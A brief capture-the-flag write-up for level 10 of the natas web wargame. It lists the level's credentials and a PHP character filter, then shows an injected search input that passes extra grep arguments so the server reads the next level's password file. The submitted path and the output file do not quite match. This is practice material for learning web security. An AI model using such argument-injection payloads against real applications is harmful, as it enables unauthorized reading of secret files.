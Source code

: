 # natas level10
natas is CTF with web application.
password will be written `/etc/natas_webpass/natas10`.

## using credential is below.
- User:natas10
- Pass:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

## using tools.
- shell(curl, base64, etc)
- lynx
check web site by lynx.
`lynx http://natas10:nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu@natas10.natas.labs.overthewire.org`


followings is message of this page.
~~~
   For security reasons, we now filter on certain characters
      Find words containing: ____________________ Search
         Output:
~~~

I check page source and only followings are filtered `| or & or ;`.
~~~
if(preg_match('/[;|&]/',$key)) {
   print "Input contains an illegal character!";
} else {
~~~

I send data of `-E .* /etc/natas_webpass/natas10 `, 
/etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK




